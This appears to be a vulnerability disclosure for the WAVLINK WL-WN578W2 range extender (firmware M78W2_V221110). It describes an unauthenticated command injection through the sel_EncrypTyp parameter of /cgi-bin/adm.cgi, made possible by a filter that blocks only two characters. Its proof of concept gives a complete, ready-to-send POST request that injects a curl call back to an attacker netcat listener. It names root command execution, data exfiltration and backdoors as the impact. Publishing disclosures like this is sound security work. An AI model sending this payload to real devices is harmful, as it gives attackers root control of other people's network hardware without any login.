

# WAVLINK WL-WN578W2 M78W2\_V221110 Unauthenticated Command Injection (Filter Bypass in /cgi-bin/adm.cgi)

PS:


1.  QEMU simulation is difficult; use a physical WAVLINK WL-WN578W2 for testing.

2.  **Unauthenticated access allowed**: Attackers can directly access the `wizard_rep.shtml` page without login credentials, then send requests to `/cgi-bin/adm.cgi` for command injection. The session does not pass a cookie, but exploitation requires no authentication (previous "unable to attack without login" conclusion was incorrect).

## Overview

A critical unauthenticated command injection vulnerability (with filter bypass) exists in `/cgi-bin/adm.cgi` of WAVLINK WL-WN578W2 (firmware M78W2\_V221110). Attackers can directly access the `wizard_rep.shtml` page without login, then exploit the weak input filter (only blocks 2 characters: `|`, `` ` ``) to bypass restrictions. By injecting arbitrary system commands via the `sel_EncrypTyp` parameter, attackers can execute `root`-level commands and fully compromise the device—no authentication required.


## Details


*   **Vendor**: WAVLINK

*   **Vendor Website**: [h](https://www.wavlink.com/zh_cn/index.html)[ttps:](https://www.wavlink.com/zh_cn/index.html)[//www](https://www.wavlink.com/zh_cn/index.html)[.wavl](https://www.wavlink.com/zh_cn/index.html)[ink.c](https://www.wavlink.com/zh_cn/index.html)[om/zh](https://www.wavlink.com/zh_cn/index.html)[\_cn/i](https://www.wavlink.com/zh_cn/index.html)[ndex.](https://www.wavlink.com/zh_cn/index.html)[html](https://www.wavlink.com/zh_cn/index.html)

*   **Product**: WAVLINK WL-WN578W2 (wireless range extender)

*   **Firmware**: M78W2\_V221110

*   **Firmware Download**: [https](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[://do](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[cs.wa](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[vlink](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[.xyz/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[Firmw](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[are\_c](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[h/fm-](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[578w2](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)[/](https://docs.wavlink.xyz/Firmware_ch/fm-578w2/)

*   **Affected Endpoint**: `/cgi-bin/adm.cgi` (POST method, no login required—accessible via `wizard_rep.shtml`)

*   **Vulnerable Parameter**: `sel_EncrypTyp`

*   **Vulnerability Type**: Unauthenticated Command Injection (Filter Bypass)

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary `root` commands (exfiltrate sensitive data, plant backdoors, modify configurations) without any login credentials.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Analysis

#### 1. Weak Input Filter (Bypassable)

The firmware’s `sub_40A91C` function implements a basic input filter, but only blocks two characters:


*   Blocks `|` (pipe) and `` ` `` (backtick) to prevent simple command injection.

*   Ignores common command separators: `;` (semicolon), `&&` (logical AND), `||` (logical OR), `$(` (command substitution).

    Attackers can use these allowed separators to bypass the filter and inject malicious commands—no authentication needed.

#### 2. Command Injection Vector

The `sel_EncrypTyp` parameter (extracted from POST requests via `sub_409184`) is directly concatenated into system commands without additional sanitization. Since the weak filter fails to block key separators, and the `wizard_rep.shtml` page (which links to `/cgi-bin/adm.cgi`) is accessible without login, attackers can inject arbitrary commands into `sel_EncrypTyp` (e.g., append `; [malicious command] #`) to execute with `root` privileges.


## Proof of Concept (PoC)

### PoC: Unauthenticated Filter Bypass & `curl` Command Injection

No login credentials required—directly access the page and send the request.

#### 1. Prepare for Exploitation


*   Start a Netcat listener on the attacker machine (IP: 192.168.10.154, Port: 1234) to monitor command execution results:


```
nc -lvnp 1234
```

#### 2. Access Page & Send Unauthenticated POST Request


*   Directly visit the `wizard_rep.shtml` page of the target device (e.g., `http://wifi.wavlink.com/wizard_rep.shtml`)—no login prompt will appear.

*   Send the following POST request to `/cgi-bin/adm.cgi` (no authentication cookies/headers needed):


```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: wifi.wavlink.com
Content-Length: 728
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://wifi.wavlink.com
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://wifi.wavlink.com/wizard_rep.shtml
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

page=wzdrepeater&select=sel2&sel_Automode=WPA2PSK&sel_EncrypTyp=AES;curl http://192.168.10.154:1234#&wlan_ssid=a827&wlan_bssid=34%3A0a%3A98%3A1a%3A6e%3Aac&wlan_signal=100&wlan_channel=9&wlan_index=2&wlan_wepkey=&wepKeyLen0=&format0=&key0=&pskFormat0=0&pskValue0=&ciphersuite0=&wpa2ciphersuite0=&wepKeyLen1=&length1=&format1=&key1=&pskFormat1=&pskValue1=&ciphersuite1=&wpa2ciphersuite1=&submit-url=%2Fcountdown.htm%3Fsettp%3D5&submit-value=&static_en=0&hostname=&skiplist1=12%3B13%3B14%3B&skiplist2=&skiplist3=&manual_pw=&Model=repeater&rep_type=0&web_pskValue=jm912558&wl_rep_ssid2g=a827_EXT&wl_rep_ssid5g=&wl_rep_ssid5g_2=&ssid2g_input=&Channel=&SECURITYMODE=NONE&wl_key=&wl_rep_ssid2=&wl_rep_ssid5=&INPUTTYPE=0&repeater_mode=0
```

#### 3. Verify Command Execution

The Netcat listener receives a request from the device’s IP (e.g., 192.168.10.1), confirming that the injected `curl` command was executed successfully—proving unauthenticated command injection with filter bypass.



